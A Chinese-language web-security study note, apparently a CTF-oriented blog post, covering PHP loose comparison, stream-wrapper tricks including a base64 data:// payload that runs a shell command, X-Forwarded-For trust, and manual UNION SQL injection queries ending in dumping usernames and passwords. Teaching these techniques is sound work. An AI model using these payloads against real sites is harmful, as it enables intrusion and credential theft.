 ```yaml
---
layout: post
title: "WEB SEC(ing)"
categories: [websec]

---
```


### PHP弱类型

#### 1.比较操作符
=== 在进行比较的时候，会先判断两种字符串的类型是否相等，再比较。

== 在进行比较的时候，会先将字符串类型转化成相同，再比较。


```
在$a==$b的比较中

$a=' ';$b=null  //true

$a=null;$b=true //true

$a=0;$b='0' //true

$a=0;$b='abcdef ' //true  而0===’abcdef’ false

```

#### 2.Hash比较缺陷

```
"0e132456789"=="0e7124511451155" //true
"0e123456abc"=="0e1dddada" //false
"0e1abc"=="0" //true
```

### 伪协议

#### 1.php伪协议
用法  

php://input,用于执行php代码，需要post请求提交数据。
php://filter,用于读取源码，get提交参数。
```
?a=php://filter/read=convert.base64/resource=xxx.php
```

需要开启
```
allow_url_fopen:php://input、
php://stdin、php://memory、php://temp
```

不需要开启
```
allow_url_fopen:php://filter
```


#### 2.data协议

用法：

```
data://text/plain,xxxx(要执行的php代码)
data://text/plain;base64,xxxx(base64编码后的数据)
```

例：

```
?page=data://text/plain,
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=
```


#### 3.file协议
用法：
file://[本地文件系统的绝对路径]


### 可变变量
一种特殊变量，允许动态改变一个变量名称。工作原理是该变量的名称由另外一个变量的名称确定，实现过程就是在变量的前面多加一个美元符号 “$”。

例子

```
<?php

$change_name = "trans";
$trans = "this is me";
echo $change_name;
echo $$change_name;

?>

//输出trans this is me
```


### XFF
XFF头(X-Forwarded-For)，代表客户端，也就是HTTP的请求端真实的IP。有两种方式可以从HTTP请求中获得请求者的IP地址。一个是从Remote Address中获得，另一个是从X-Forward-For中获得，但他们的安全性和使用场景各有不同。一旦用错，就可能为系统造成漏洞。  

Remote Address代表的是当前HTTP请求的远程地址，即HTTP请求的源地址。HTTP协议在三次握手时使用的就是这个Remote Address地址，在发送响应报文时也是使用这个Remote Address地址。因此，如果请求者伪造Remote Address地址，他将无法收到HTTP的响应报文，此时伪造没有任何意义。这也就使得Remote Address默认具有防篡改的功能。  

在一些大型网站中，来自用户的HTTP请求会经过反向代理服务器的转发，此时，服务器收到的Remote Address地址就是反向代理服务器的地址。在这样的情况下，用户的真实IP地址将被丢失，因此有了HTTP扩展头部X-Forward-For。当反向代理服务器转发用户的HTTP请求时，需要将用户的真实IP地址写入到X-Forward-For中，以便后端服务能够使用。由于X-Forward-For是可修改的，所以X-Forward-For中的地址在某种程度上不可信。  

所以，在进行与安全有关的操作时，只能通过Remote Address获取用户的IP地址，不能相信任何请求头。
当然，在使用nginx等反向代理服务器的时候，是必须使用X-Forward-For来获取用户IP地址的（此时Remote Address是nginx的地址），因为此时X-Forward-For中的地址是由nginx写入的，而nginx是可信任的。不过此时要注意，要禁止web对外提供服务。


### sql

#### union select手工注入

mysql中的information_schema 结构用来存储数据库系统信息 
information_schema 结构中这几个表存储的信息，在注射中可以用到的几个表。　 
 
SCHEMATA 存储数据库名的， 
关键字段：SCHEMA_NAME，表示数据库名称 
TABLES 存储表名的 
关键字段：TABLE_SCHEMA表示表所属的数据库名称； 
TABLE_NAME表示表的名称 
COLUMNS 存储字段名的 
关键字段：TABLE_SCHEMA表示表所属的数据库名称； 
TABLE_NAME表示所属的表的名称 
COLUMN_NAME表示字段名 
 
 
爆所有数据名 

```
select group_concat(SCHEMA_NAME) from information_schema.schemata
```

得到当前库的所有表 

```
select group_concat(table_name) from information_schema.tables where table_schema=database()
```

得到表中的字段名 将敏感的表进行16进制编码adminuser=0x61646D696E75736572 

```
select group_concat(column_name) from information_schema.columns where table_name=0x61646D696E75736572
```

得到字段具体的值     
```
select group_concat(username,0x3a,password) from adminuser
```
